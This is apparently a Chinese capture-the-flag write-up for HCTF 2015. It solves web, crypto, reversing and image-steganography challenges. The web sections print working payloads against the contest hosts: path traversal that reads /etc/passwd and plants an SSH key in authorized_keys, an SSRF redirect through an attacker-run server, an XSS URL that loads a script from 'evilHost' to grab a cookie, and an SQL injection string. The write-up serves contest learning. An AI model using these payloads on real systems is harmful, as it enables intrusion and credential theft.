

# HCTF 2015

## 2. fuck === 75
```php
if (isset($_GET['a']) and isset($_GET['b'])) {
    if ($_GET['a'] != $_GET['b'])
    	if (md5($_GET['a']) === md5($_GET['b']))
        	die('Flag: '.$flag);
    else
        print 'Wrong.';
```

扔两个数组过去即可
`/index.php?a[]=asd&b[]=rew`

## 3. black eat black 300

使用该DNS(180.153.47.182)后会劫持到120.55.181.136,     
由`黑吃黑`可知，他会根据host字段来帮你代理http请求，    
那么把host改成127.0.0.1就能吃掉他了，nmap扫描后发现开了一堆filtered端口，    
把host改成127.0.0.1:4444后发向120.55.181.136，就能看到一个叫gayhub的网站，     
注册并登陆后，发现能上传覆盖任意文件（有写权限的话），文件名带`../`可以上传至上一级目录，      
上传文件的路径形如`/:username/uploadfile/:filename`，（而且我试出来真实路径是`/static/upload/:username/:filename`，不过没什么卵用）    
发现上传到上一级的目录的文件不能通过`/:username/uploadfile/../:filename`来访问，经测试后发现会把`../`扔掉，     
那么可以构造`....//`，替换后变成`../`来绕过      
于是读`/:username/uploadfile/....//....//....//....//....//....//....//etc/passwd`，发现有类似`hctf2015:/home/hctf2015:/usr/bin/whereisflag`的字段，而且无法读取`/usr/bin/whereisflag`，     
那么利用上传系统，上传自己的公钥到`../../../../../../home/hctf2015/.ssh/authorized_keys`，ssh上去回答几道问题就能拿到flag啦


## 7. server is done 175

构造一个足够长的字符串arg = '0'*512 (>512 bytes)，看他返回的message，就能发现大于512时有循环部分，html注释部分里的加密后的flag也是512字节，      
仔细检查后发现，`encrypted flag = arg xor message xor flag`，于是异或一下得到flag


## 8. fuckphp 300

看小说页里面最下面有个`<!--download.php?file=SAO.7z-->`，下载出来就是小说包....      
开下脑洞试了几个发现能下载个`backup.zip`...     
打开看了下是一个叫`flagflagflaggogogo.php`的OPCODE DUMP文件，    
仔细阅读后发现需要读取`$_GET['username'], $_GET['password']` 长均为16，且异或后等于`'ILoveAklisheheha'`      
随便构造了个`/flagflagflaggogogo.php?username=y6*,%3C$*-(2)$)$)Q&password=0zEZYeAAAAAAAAA0`就过去了
然后有个是加密flag的函数：
```
compiled vars:  !0 = $target1, !1 = $target2, !2 = $getFlag, !3 = $echoFlag, !4 = $getUserInfo, !5 = $checkTarget1, !6 = $flag, !7 = $cbc_key, !8 = $cbc_iv
   8     0  E >   FETCH_R                      static              $0      'flag'
         1        ASSIGN                                                   !0, $0
         2        FETCH_R                      static              $2      'cbc_key'
         3        ASSIGN                                                   !1, $2
         4        FETCH_R                      static              $4      'cbc_iv'
         5        ASSIGN                                                   !2, $4
   9     6        FETCH_CONSTANT                                   ~6      'MCRYPT_BLOWFISH'
         7        SEND_VAL                                                 ~6
         8        SEND_VAR                                                 !1
         9        SEND_VAR                                                 !0
        10        FETCH_CONSTANT                                   ~7      'MCRYPT_MODE_CBC'
        11        SEND_VAL                                                 ~7
        12        SEND_VAR                                                 !2
        13        DO_FCALL                                      5  $8      'mcrypt_encrypt'
        14        SEND_VAR_NO_REF                               6          $8
        15        DO_FCALL                                      1  $9      'base64_encode'
        16      > RETURN                                                   $9
  10    17*     > RETURN                                                   null
```

加密完后，会依次输出`$encFlag, $cbc_iv, $cbc_key`，
显示出来的是`HFcN8aBMiUUvprvYK2vF9teFBwZvsLag5pivWzxOu+JPTg3FFBonyg==longjingmolihua!`

那么写段php：
```php
echo mcrypt_decrypt(MCRYPT_BLOWFISH, 'molihua!', base64_decode('HFcN8aBMiUUvprvYK2vF9teFBwZvsLag5pivWzxOu+JPTg3FFBonyg=='), MCRYPT_MODE_CBC, 'longjing');
```
即可输出flag

# 11. 真的非常友善的逆向题（福利） 150

过程写在下面的注释里了：

```c
int __fastcall checkFlagHead(int a1, char a2)  // a1=flag string
{
  int v2; // eax@1
  char v3; // cl@1
  signed int v4; // eax@1
  __int128 v6; // [sp+0h] [bp-2Ch]@1
  int v7; // [sp+10h] [bp-1Ch]@1
  int v8; // [sp+14h] [bp-18h]@1
  int v9; // [sp+18h] [bp-14h]@1
  __int16 v10; // [sp+1Ch] [bp-10h]@1
  char v11; // [sp+1Eh] [bp-Eh]@1
  int v12; // [sp+20h] [bp-Ch]@1
  char v13; // [sp+24h] [bp-8h]@1
  char v14; // [sp+25h] [bp-7h]@1

  v9 = '7613';
  v10 = '45';
  v11 = 0;
  v2 = *(_DWORD *)a1;
  v3 = *(_BYTE *)(a1 + 4);
  v12 = v2;

  LOBYTE(v12) = '3' - v2;  // '3' - string[0]
  BYTE1(v12) = BYTE1(v9) - BYTE1(v12); // '1' - string[1]
  BYTE2(v12) = '6' - BYTE2(v2);
  BYTE3(v12) = '7' - BYTE3(v2);
  // 上面这里每个byte做一下减法变换，看看各位减得的负数是否跟下面v6一样
  v14 = 0;
  v13 = 53 - v3;
  v4 = 0;
  _mm_storeu_si128((__m128i *)&v6, _mm_load_si128((const __m128i *)&xmmword_415630));  // v6 <- 4bytes的负数xmmword_415630
  // 那么'3167'各bytes减v6各bytes得'HCTF'
  v7 = -70;
  v8 = -73;
  while ( *((_BYTE *)&v12 + v4) == *((_DWORD *)&v6 + v4) )  // 实质就是验证string前是否是HCTF{
  {
    ++v4;
    if ( v4 >= 5 )
      return SHIBYTE(v10) - a2 == -73;
  }
  return 0;
}

BOOL __userpurge DialogFunc@<eax>(char a1@<dil>, HWND hDlg, UINT a3, WPARAM a4, LPARAM a5)
{
  __int128 *v6; // edx@18
  signed int v7; // esi@21
  int v8; // edx@22
  int v9; // eax@30
  int v10; // eax@30
  int v11; // eax@30
  int v12; // eax@30
  signed int v13; // ecx@30
  CHAR String; // [sp+0h] [bp-24h]@1
  __int128 v15; // [sp+1h] [bp-23h]@1
  __int64 v16; // [sp+11h] [bp-13h]@1
  int v17; // [sp+19h] [bp-Bh]@1
  char v18; // [sp+1Dh] [bp-7h]@1

  String = 0;
  _mm_storel_epi64((__m128i *)&v16, 0i64);
  v17 = 0;
  v18 = 0;
  _mm_storeu_si128((__m128i *)&v15, 0i64);
  if ( a3 > 0x110 )
  {
    if ( a3 == 273 && !(a4 >> 16) && (_WORD)a4 == 1004 )
    {
      GetWindowTextA(dword_4191F8, &String, 30);
      v6 = &v15;
      if ( strlen(&String) == 22 )   // 检查长度
      {
        LOBYTE(v6) = BYTE4(v16);
        if ( sub_401DA0(&String, v6) )
        {
          if ( sub_401BB0(&String) )  // 二分查找，A~Z变成0~25, a~z变成100~125, '0'变成了200，把变换后的字符串与下面的数组比较
          {
            v7 = 0;
            while ( 1 )
            {
              v8 = dword_4191B0 ^ byte_418217;    // dword_4191B0取1,2 byte_418217不断rol，逆向的时候暴力下这几种可能就好
              if ( (dword_4191B0 ^ byte_418217) >= 0
                && dword_4191B0 != byte_418217    // 这里比较flag后面接的4位无意义字符
                && (v8 ^ (char)v16) == byte_418218
                && (v8 ^ SBYTE1(v16)) == byte_418219
                && (v8 ^ SBYTE2(v16)) == byte_41821A
                && (v8 ^ SBYTE3(v16)) == byte_41821B )
                break;
              Sleep(0x14u);
              ++v7;
              if ( v7 >= 100 )
                goto LABEL_28;
            }
            v9 = dword_4191D8;    // 这里还要交换几个bytes
            dword_4191D8 = dword_4191C0[0];
            dword_4191C0[0] = v9;
            v10 = dword_4191E0;
            dword_4191E0 = dword_4191CC;
            dword_4191CC = v10;
            v11 = dword_4191D4;
            dword_4191D4 = dword_4191C8;
            dword_4191C8 = v11;
            v12 = dword_4191D0;
            dword_4191D0 = dword_4191EC;
            v13 = 0;
            dword_4191EC = v12;
            do
            {
              if ( dword_415600[v13] != dword_4191C0[v13] )  // 比较上面变换后的字符串和数组
              {
                MessageBoxW(0, L"Try Again", L"Fail", 0);
                exit(-1);
              }
              ++v13;
            }
            while ( v13 < 12 );
            if ( v8 == 2 )
            {
              MessageBoxW(0, L"YOU GOT IT", L"OK", 0);
              exit(0);
            }
          }
        }
      }
LABEL_28:
      MessageBoxW(0, L"Try Again", L"Fail", 0);
    }
  }
  else if ( a3 == 272 )
  {
    hWnd = GetDlgItem(hDlg, 1004);
    dword_4191F8 = GetDlgItem(hDlg, 1003);
    hObject = (HANDLE)sub_4027B4(0, 0, (int)sub_401B90, 0, 0, 0);
    if ( !hObject )
    {
      sub_4029F6(&unk_415584, a1);
      return 0;
    }
  }
  else
  {
    if ( a3 == 16 )
    {
      CloseHandle(hObject);
      EndDialog(hDlg, 0);
      DestroyWindow(hDlg);
      return 0;
    }
    if ( a3 == 32 && hWnd == (HWND)a4 )
    {
      if ( dword_4181F8 == 34 )
      {
        MoveWindow(hWnd, 10, 10, 80, 35, 1);
        dword_4181F8 = 21;
        return 0;
      }
      if ( dword_4181F8 == 21 )
      {
        MoveWindow(hWnd, 20, 230, 80, 35, 1);
        dword_4181F8 = 24;
        return 0;
      }
      if ( dword_4181F8 == 24 )
      {
        MoveWindow(hWnd, 350, 230, 80, 35, 1);
        dword_4181F8 = 34;
        return 0;
      }
    }
  }
  return 0;
}
```

所以只要把那个比较用的数组提出来
```
66h
.rdata:00415604                 db  64h ; d
.rdata:00415608                 db 0C8h ; 
.rdata:0041560C                 db  68h ; h
.rdata:00415610                 db  75h ; u
.rdata:00415614                 db  75h ; u
.rdata:00415618                 db  14h
.rdata:0041561C                 db  0Bh
.rdata:00415620                 db  68h ; h
.rdata:00415624                 db  15h
.rdata:00415628                 db  68h ; h
.rdata:0041562C                 db  12h
```

然后改成十进制，对x，如果x==200那么x转成'0'，否则转成`(x%100+'A')+(x/100)*('a'-'A')`，然后按照上面的规则交换几个bytes    
拼接上上面的HCTF{和结尾的四位随机字符即可。


# 14.  送分要不要？（萌新点我） 50



在PNG前面有段base64全家桶，依次b64decode b32decode b16decode 得到flag

# 16. 无聊的题（出题人真无聊） 250

这题真坑爹，也真的是很无聊- -...     
网上找了原图，diff了一下很容易发现些异常....然而原图是jpg，好多噪点     

diff图如下：


在88行与201行，分别R与B通道有LSB....     
把原图与题目图的diff打印出来看看, 按col row 题图 原图顺序排列...

```
...
121 88 (150, 21, 15, 255) (134, 21, 15)
125 88 (136, 28, 18, 255) (152, 28, 18)
127 88 (147, 26, 17, 255) (146, 25, 16)
130 88 (158, 23, 17, 255) (142, 23, 17)
131 88 (162, 40, 35, 255) (162, 41, 33)
132 88 (133, 26, 19, 255) (149, 26, 19)
135 88 (123, 22, 15, 255) (107, 22, 15)
136 88 (100, 27, 13, 255) (116, 27, 13)
139 88 (120, 24, 15, 255) (104, 24, 15)
141 88 (109, 28, 21, 255) (125, 28, 21)
142 88 (111, 22, 18, 255) (127, 22, 18)
143 88 (125, 27, 16, 255) (109, 27, 16)
145 88 (98, 32, 34, 255) (114, 32, 34)
146 88 (119, 22, 18, 255) (102, 23, 18)
147 88 (156, 36, 27, 255) (140, 36, 27)
148 88 (147, 20, 11, 255) (131, 20, 11)
149 88 (110, 31, 27, 255) (126, 31, 27)
151 88 (108, 34, 25, 255) (124, 34, 25)
152 88 (109, 35, 27, 255) (125, 35, 27)
153 88 (147, 25, 25, 255) (131, 25, 25)
154 88 (121, 37, 26, 255) (105, 37, 26)
156 88 (121, 22, 18, 255) (105, 22, 18)
158 88 (111, 50, 44, 255) (127, 50, 44)
159 88 (106, 33, 29, 255) (122, 33, 29)
160 88 (70, 26, 25, 255) (86, 26, 25)
161 88 (91, 22, 18, 255) (75, 22, 18)
...
137 201 (150, 41, 40, 255) (150, 41, 44)
138 201 (147, 45, 37, 255) (147, 45, 33)
140 201 (139, 43, 41, 255) (139, 43, 45)
141 201 (120, 41, 24, 255) (120, 41, 28)
144 201 (142, 33, 24, 255) (142, 33, 28)
147 201 (144, 42, 44, 255) (144, 42, 40)
148 201 (158, 46, 40, 255) (158, 46, 44)
151 201 (161, 49, 41, 255) (161, 49, 45)
153 201 (168, 47, 32, 255) (168, 47, 36)
154 201 (179, 46, 45, 255) (179, 46, 41)
155 201 (156, 52, 45, 255) (156, 52, 41)
156 201 (159, 41, 33, 255) (159, 41, 37)
157 201 (164, 35, 26, 255) (164, 35, 30)
158 201 (176, 40, 24, 255) (176, 40, 28)
160 201 (142, 18, 22, 255) (142, 18, 18)
162 201 (186, 46, 37, 255) (186, 46, 33)
163 201 (178, 40, 29, 255) (180, 39, 29)
164 201 (186, 46, 41, 255) (185, 45, 44)
165 201 (130, 40, 25, 255) (130, 40, 29)
169 201 (159, 48, 24, 255) (159, 48, 28)
170 201 (167, 44, 33, 255) (167, 44, 37)
```

容易发现88行R部分大多相差16, 201行B部分相差4，于是提取出来，把偏移全部试一遍，即可得到flag

```python
>>> r1,g1,b1,a1 = Image.open('boring.png').split()
>>> s=''
>>> for col in xrange(106, 300):
...     pos=(col,88)
...     if ((r1.getpixel(pos))&16)==16:
...             s+='1'
...     else:
...             s+='0'
... 
>>> s
'10011001101100011000010110011100110001001110100110100001100011011101000110011001111011011011000101111100110100011011010101111100110111011010000100010101011111010001100100100101110010001100110011'
>>> def tobin8(s):
...     ret=''
...     for x in xrange(0, len(s), 8):
...             seg=s[x:x+8]
...             if len(seg)<8: return ret
...             ret+=chr(int(seg,2))
...     return ret
... 
>>> tobin8(s[6:])
'lag1:hctf{l_4m_7hE_FIr3'
# 上面列数取小了...后来把列数改大,可以得到完整的flag1：lag1:hctf{l_4m_7hE_FIr37_F14G}

for col in xrange(130, 500):
  pos=(col,201)
  if ((b1.getpixel(pos))&4)==4:
    s+='1'
  else:
    s+='0'
>> tobin8(s[7:])
'flag2:hctf{DoYouLoveLSB??},\xcf\x8c\x9538\xbaT9y\n\xde|\x87\xcb\xf3\x98\xd6j'

```

# 28. Hack my net 100

上来是
`http://120.26.224.102:25045/ea57f09ea421245047b86eaba834fae1/?u=http://nohackair.net:80/usr/themes/trapecho/css/bootstrap-responsive.min.css`这个url，
测试可知前面的`http://nohackair.net:80`是固定的，于是用alictf某题的绕过方法，加@绕过，如：`http://nohackair.net:80@baidu.com`返回baidu.com      
测试发现header里面有个`Config: http://localareanet/all.conf`，也就是想办法读这个conf    
测试发现后缀必须是.css，而且服务器会跟302重定向，那么，在自己的服务器上搭个nginx：
```
        location /test.css {
                add_header Content-Type text/css;
                return 302 http://localareanet/all.conf?u=/11.css;
        }
```

然后填`http://myEvilServer/test.css`即可看到flag（注：貌似会检查content-type,所以要加个test/css）

# 30. easy xss 150

```html
<body>
<?-- param: /?errmsg=a&t=1&debug=false -->
<?-- xssme: getmycookie.php?url=yourevilurl -->
<?-- DO NOT USE SCANNER OR BURP TOOLS , OR REGARDS AS CHEATING!!! -->
<!-- LOAD YOUR JS FILE,GET MY COOKIE,COME ON-->
<script>
var errormsg = 'error in js';
var type = '1';
(function(){
	try{
		$.get('./show.php?type='+type.toString(),function(msg){
			document.write(msg);
		});
	}catch(err){
		document.write(errormsg);
	}
	var debug = 'false';
	
})();
</script>
</body>
```

其中，catch块只有在type.toString()抛异常才会执行，那么我们要设法让type为null或undefined.
利用js的变量作用域的坑，debug填`';var type;'`那么就有`var debug = '';var type;'';`     

那么errormsg填payload就好了,过滤了斜杠可以用js字符转义`\x2f`来绕过     

payload:
`http://120.26.224.102:54250/0e7d4f3f7e0b6c0f4f6d1cd424732ec5/?errmsg=asd%3Cscript%20src=%27http:\x2f\x2fevilHost\x2fxss.js%27%3E%3C\x2fscript%3E&t=1&debug=%27;var%20type;%27`

xssme:
`http://120.26.224.102:54250/0e7d4f3f7e0b6c0f4f6d1cd424732ec5/getmycookie.php?url=http://120.26.224.102:54250/0e7d4f3f7e0b6c0f4f6d1cd424732ec5/?errmsg=asd%253Cscript%2520src=%2527http:\x2f\x2fevilHost\x2fxss.js%2527%253E%253C\x2fscript%253E%26t=1%26debug=%2527;var%2520type;%2527`

# 32. confused question 200

```php

<?php
session_start();
require('./db/db.php');
function addslashesForEvery($array){
	if(!is_array($array)){return addslashes($array);}
	foreach($array as $key => $val){
		$array[$key] = addslashes($val);
	}
	return $array;
}
$loginStr = $_GET['loginstr'];
if(!isset($_SESSION['admin'])){$loginStr = str_ireplace('admin','guest',$loginStr);}//前台不是admin
parse_str($loginStr,$loginStr);
foreach($loginStr as $n => $v){
	$v = addslashesForEvery($v);
	if($n === 'admin'){
		$username = $v['username'];
		$password = addslashesForEvery($_POST['password']);
		$sql = "select * from admin where username = '$username' and password = '$password'";
		$result = $DB->query($sql);
		if($result){$_SESSION['adminlogin'] = 1; echo "hctf{xxxxxxxx}";}
		break;
	}
	if($n === 'guest'){
		echo "Hello Guest!But you cannot log in!";
		break;
	}
	echo "null";
	break;
}

?>
```

这个没什么好说的，本地改下php跑跑试下就出来了...php的某些坑, 没有对应offset时出现的古怪行为...     
从效果上说，跟dz7.2那个洞有点像...

直接扔payload吧
```
?loginstr[admin]=%27&password=+union_select+1,1+--
````

本地测试代码添加的片段：
```php
$username = $v['username'];
var_dump($username, $v);
// 输出 Warning: Illegal string offset 'username' in D:\Winginx\home\localhost\y.php on line 58  string(1) "\" string(2) "\'"
```

在payload下sql语句变成
`string(78) "select * from admin where username = '\' and password = ' union_select 1,1 --'" `